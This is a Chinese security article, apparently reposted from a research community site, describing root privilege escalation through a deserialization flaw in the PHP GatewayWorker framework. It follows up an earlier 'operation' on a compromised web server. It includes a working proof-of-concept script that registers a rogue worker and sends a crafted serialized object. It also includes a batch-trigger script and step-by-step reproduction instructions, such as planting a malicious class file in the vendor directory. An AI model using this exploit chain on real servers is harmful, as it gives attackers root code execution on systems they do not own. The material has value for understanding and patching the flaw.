










# 利用GatewayWorker反序列化漏洞实现提权-先知社区

> **来源**: https://xz.aliyun.com/news/18862  
> **文章ID**: 18862

---

# 前言

某次行动，拿到一台仅有PHP客服系统的web服务器，使用了各种常见方式均无法提权。

服务器进程中有个root起的php进程在跑，运行的文件是www权限可修改的，看起来似乎是个很有希望的点。

翻看代码得知，这是该客服系统处理聊天的websoket程序，用且只用了GatewayWorker框架开发。下面是该框架的官方介绍：

> GatewayWorker基于Workerman开发的一个项目框架，用于快速开发TCP长连接应用，例如app推送服务端、即时IM服务端、游戏服务端、物联网、智能家居等等  
> GatewayWorker使用经典的Gateway和Worker进程模型。Gateway进程负责维持客户端连接，并转发客户端的数据给BusinessWorker进程处理，BusinessWorker进程负责处理实际的业务逻辑（默认调用Events.php处理业务），并将结果推送给对应的客户端。Gateway服务和BusinessWorker服务可以分开部署在不同的服务器上，实现分布式集群。

可以注意到，主要业务逻辑都在Events.php中。自然，这里的业务逻辑代码中如果存在诸如命令执行等漏洞，问题就能直接解决。

一个php文件的代码不见得多，并没有发现这样一击毙命的点，不然就没有了后面的各种尝试，更不会摸到GatewayWorker提权的法门。

# 尝试修改文件

既然当前全县可以修改文件，那就尝试在程序会调用到的文件中插入恶意代码，看是否过段时间代码会被执行。

由于workerman程序是直接cli模式（php命令行）起的，所有通过`require(_once)`、`include(_once)`或自动加载（autoload）引入的类定义、函数定义都已经加载到内存当中了。这时，在当前进程不会另起新进程等情况下，修改磁盘上现有的php脚本不会有效果。

简单说就是php命令行起的程序默认不会热加载，所以实质这里的尝试是在等管理员重启程序。最后是苦等一周多，未见成效。

值得一提的是，某些类文件可能未被事先加载，例如某些冷门功能的类文件、或者程序才刚跑起来不久某些还未被包含的类文件。修改代码后主动去触发，仍值得一试。

# 尝试代码审计

既然已经加载的类无法改变，设法引入新的类如何呢？据此，在脑子里回忆所有可能会引入新类的漏洞，翻到三种：

1. 文件包含
2. 任意类实例化
3. 反序列化

文件包含的利用很简单，只需要在漏洞点包含新的可控文件名，就能以root权限执行php代码。

任意类实例化道理类似，不过多了一层php自动类加载的过程。当`$class`可控为一个不存在的类名如`GatewayWorkerFoo`，php将会按照composer的autoload自动加载机制，去包含预先放置的`vendor/workerman/gateway-worker/src/Foo.php`。

反序列化则更深一层，序列化内容中有不存在的类标识（如`O:20:"FooGatewayWorkerFoo":0:{}`），也会触发autoload自动加载机制，进而文件包含。

在Events.php以及GatewayWorker框架代码中，没有找到前两种漏洞，但在框架中找到了反序列化漏洞。

# 代码准备

既然是框架的问题，这里就直接使用[官方的demo代码](https://www.workerman.net/download/GatewayWorker.zip)做后续演示，版本是v3.1.0。

# 反序列化

通过官方文档以及阅读代码，可大致拟出GatewayWorker的通信及工作流程：



在`vendor/workerman/gateway-worker/src/Gateway.php`的`onWorkerMessage(`函数代码中，处理的是worker发往gateway的各种指令，其中有个session合并的指令，有涉及反序列化操作



查看`sessionDecode(`函数，在`vendor/workerman/gateway-worker/src/Lib/Context.php`中



能看到简单直接的`unserialize(`。

综上，需要有个worker能够向gateway发送指定的指令以及内容，来触发反序列化漏洞。

# 伪造worker

根据GatewayWorker的代码和工作模式可知，将新的worker注册进register，即可与gateway通信。

GatewayWorker框架中用到的worker类是`GatewayWorkerBusinessWorker`, 官网文档和demo代码中均有示例。

`GatewayWorkerLibGateway`类提供了用于worker和gateway通信的接口，和session相关的有三个。



前两个是用于设置session的，其中`setSocketSession(`适合传输原始的序列化字符串，第三个是用于更新合并session，适合触发反序列化漏洞。

给出poc.php

```
<?php

use \Workerman\Worker;
use \Workerman\WebServer;
use \GatewayWorker\BusinessWorker;
use \GatewayWorker\Lib\Gateway;
use \GatewayWorker\Lib\Context;
use \GatewayWorker\Protocols\GatewayProtocol;

// 自动加载类
require_once __DIR__ . '/vendor/autoload.php';

class Events
{
    public static function onWorkerStart($worker)
    {
        var_dump("onWorkerStart");
    }

    // 有客户端连接时，发送序列化数据给gateway
    public static function onConnect($client_id)
    {
        var_dump($client_id);
        var_dump("triggered poc");
        $evil_class_name = 'GatewayWorker\Foo';
        Gateway::setSocketSession($client_id, 'O:'.strlen($evil_class_name).':"'.$evil_class_name.'":0:{}');
        Gateway::updateSession($client_id, array());
    }

    public static function onMessage($client_id, $body)
    {
    }

    public static function onWorkerStop($worker)
    {
        var_dump("onWorkerStop");
    }

}

// bussinessWorker 进程
$EvilWorker = new BusinessWorker();

// 服务注册地址，根据是情况决定
$EvilWorker->registerAddress = '127.0.0.1:1238';

// 通信secret，根据是情况决定，默认空字符
$EvilWorker->secretKey = '';

// worker名称
$EvilWorker->name = 'evil';

// bussinessWorker进程数量
$EvilWorker->count = 20;

// 如果不是在根目录启动，则运行runAll方法
if(!defined('GLOBAL_START')) {
    Worker::runAll();
}
```

# 复现流程

## 1、root运行demo

以用户kali解压官方demo代码，以root权限运行`php start.php start`。



## 2、放置payload

使用kali用户将Foo.php文件写入到目标的`vendor/workerman/gateway-worker/src/`目录下，内容是执行系统命令写文件。



如果实战中到这一步，vendor下没有目录有写入权限，就G了。

## 3、注册自己的worker

将poc.php文件写入目标相应位置，以kali用户运行`php poc.php start`。

当前进程情况是这样的：



## 4、触发

需要有客户端访问，然后gateway负载均衡到注册的恶意worker，才能触发。

如果实战的网站访问量还可以，等一会儿即可。如果是老破小的站，就需要手动触发。

demo代码的gateway是`tcp://`，直接`nc 127.0.0.1 8282 -v`。



如果gateway是`ws://`，请使用websocket客户端连接触发。

# 默认负载均衡模式的变更

如果在复现之前，执行`composer update`，将demo代码中GatewayWorker框架到最新`v4.0.1`，会发现触发不了：



这是因为GatewayWorker在3.1.2版本时，将gateway默认的负载均衡模式，从随机变为了轮询。



也就导致本地单一请求很难触发，这时需要进行批量请求。使用workerman框架编写一个批量请求的脚本，方便触发：

```
<?php
use Workerman\Worker;
use Workerman\Connection\AsyncTcpConnection;
require_once __DIR__ . '/vendor/autoload.php';

$worker = new Worker();
$worker->count = 10;
$worker->onWorkerStart = function($worker) {
    // 建立异步连接（普通tcp协议）
    $con = new AsyncTcpConnection("tcp://127.0.0.1:8282");
    // 建立异步连接（普通tcp协议）
    // $con = new AsyncTcpConnection("ws://127.0.0.1:8282");

    // WebSocket握手成功回调
    $con->onWebSocketConnect = function(AsyncTcpConnection $con) {
        $con->send('Hello Server');
    };

    // 消息接收处理
    $con->onMessage = function(AsyncTcpConnection $con, $data) {
        echo "Received: $data
";
    };

    // 连接异常处理
    $con->onError = function($con, $code, $msg) {
        echo "Error: $msg
";
    };
    
    $con->connect();
};

Worker::runAll();
```

# 总结

一句话总结利用GatewayWorker提权过程，以低权限注册恶意worker，当有client请求，gateway负载到恶意worker，恶意worker发送序列化内容给gateway，gateway反序列化时有内存中未加载过的类，触发autoload加载机制，去包含预先放置在vendor特定目录下的恶意类文件，则将以root权限执行代码，提权结束。

# 参考

* <https://www.workerman.net/doc/gateway-worker/>
